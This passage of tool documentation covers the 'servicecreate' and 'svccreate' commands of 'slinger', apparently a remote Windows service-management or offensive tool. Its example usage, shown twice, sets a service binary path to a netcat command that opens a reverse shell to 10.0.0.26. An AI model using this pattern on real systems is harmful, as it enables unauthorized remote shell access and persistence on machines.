 ## `servicecreate`

**Description:** Create a new service on the remote server

**Help:**
```
usage: slinger serviceadd [-h] -n SERVICENAME -b BINARYPATH -d DISPLAYNAME -s {auto,demand,system}

Create a new service on the remote server

options:
  -h, --help            show this help message and exit
  -n SERVICENAME, --servicename SERVICENAME
                        Specify the name of the new service
  -b BINARYPATH, --binarypath BINARYPATH
                        Specify the binary path of the new service
  -d DISPLAYNAME, --displayname DISPLAYNAME
                        Specify the display name of the new service
  -s {auto,demand,system}, --starttype {auto,demand,system}
                        Specify the start type of the new service

Example Usage: -b "C:\nc.exe 10.0.0.26 8080 -e cmd.exe"

```

**Example Usage:**
```
Example Usage: -b "C:\nc.exe 10.0.0.26 8080 -e cmd.exe"
```

### Arguments

- **`servicename`**: Specify the name of the new service
  - Required: Yes

- **`binarypath`**: Specify the binary path of the new service
  - Required: Yes

- **`displayname`**: Specify the display name of the new service
  - Required: Yes

- **`starttype`**: Specify the start type of the new service
  - Choices: auto, demand, system
  - Default: `demand`
  - Required: Yes

---

## `svccreate`

**Description:** Create a new service on the remote server

**Help:**
```
usage: slinger serviceadd [-h] -n SERVICENAME -b BINARYPATH -d DISPLAYNAME -s {auto,demand,system}

Create a new service on the remote server

options:
  -h, --help            show this help message and exit
  -n SERVICENAME, --servicename SERVICENAME
                        Specify the name of the new service
  -b BINARYPATH, --binarypath BINARYPATH
                        Specify the binary path of the new service
  -d DISPLAYNAME, --displayname DISPLAYNAME
                        Specify the display name of the new service
  -s {auto,demand,system}, --starttype {auto,demand,system}
```
